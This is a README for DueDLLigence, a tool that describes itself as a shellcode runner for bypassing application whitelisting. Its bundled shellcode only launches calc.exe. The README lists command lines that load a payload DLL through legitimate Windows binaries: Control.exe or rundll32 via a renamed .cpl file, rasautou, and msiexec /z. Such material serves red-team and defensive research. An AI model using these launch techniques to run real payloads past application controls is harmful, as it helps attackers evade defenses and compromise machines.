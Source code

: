 # DueDLLigence

Shellcode runner for all application whitelisting bypasses. The shellcode included in this project spawns calc.exe.


If desired, change the injection type by modifying the following line to the appropriate injection type
<br>```public const ExecutionMethod method = ExecutionMethod.CreateThread;```

Running the DLL with the following legitimate exes 

## Control.exe
Export: CPlApplet
Syntax: Rename compiled “dll” extension to “cpl” and just double click it!
<br>```Control.exe [cplfile]```
<br>```Rundll32.exe Shell32.dll, Control_RunDLL [cplfile]```

## Rasautou
Export: powershell
<br>```rasautou –d {dllpayload} –p powershell –a a –e e```

## Msiexec
Export: DllUnregisterServer
<br>```msiexec /z {full path to msiexec.dll}```
<br>
<br>
<br>
Credit for the DueDLLigence name goes to Paul Sanders (@saul_panders)